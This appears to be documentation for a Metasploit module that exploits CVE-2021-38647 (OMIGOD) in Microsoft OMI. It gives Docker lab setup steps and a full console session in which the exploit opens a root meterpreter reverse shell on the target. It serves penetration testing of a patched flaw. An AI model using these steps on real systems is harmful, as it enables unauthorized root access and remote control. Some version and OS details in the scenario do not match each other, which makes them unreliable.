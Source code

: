 ## Vulnerable Application

By removing the authentication header, an attacker can issue an HTTP request to the OMI management endpoint that will
cause it to execute an operating system command as the root user. This vulnerability was patched in OMI version 1.6.8-1
(released September 8th 2021).

## Verification Steps

1. Start the application using the [Censys Dockerfile][1]
    1. `docker build . -t ms-omi:cve-2021-38647`
    2. `docker run --name cve-2021-38647 --rm -d -p 5985:5985 ms-omi:cve-2021-38647`
2. Start `msfconsole`
3. Do: `use exploit/linux/misc/cve_2021_38647_omigod`
4. Set the module options
5. Do: `exploit`
6. You should get a shell.

## Options

## Scenarios

### Ubuntu 20.04 x64, OMI v1.6.8, SCX v1.6.6

```
msf > use exploit/linux/misc/cve_2021_38647_omigod
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/misc/cve_2021_38647_omigod) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf exploit(linux/misc/cve_2021_38647_omigod) > check
[+] 192.168.159.128:5985 - The target is vulnerable. Command executed as uid 0.
msf exploit(linux/misc/cve_2021_38647_omigod) > set TARGET Linux\ Dropper 
TARGET => Linux Dropper
msf exploit(linux/misc/cve_2021_38647_omigod) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(linux/misc/cve_2021_38647_omigod) > exploit

[*] Started reverse TCP handler on 192.168.159.128:8443 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Command executed as uid 0.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3012548 bytes) to 192.168.159.128
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (192.168.159.128:8443 -> 192.168.159.128:41066 ) at 2021-10-26 10:53:18 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 10.0.2.100
OS           : Ubuntu 20.04 (Linux 5.14.11-200.fc34.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

[1]: https://gist.github.com/dabdine/ac6aadde068cad4d58251453e688a84f
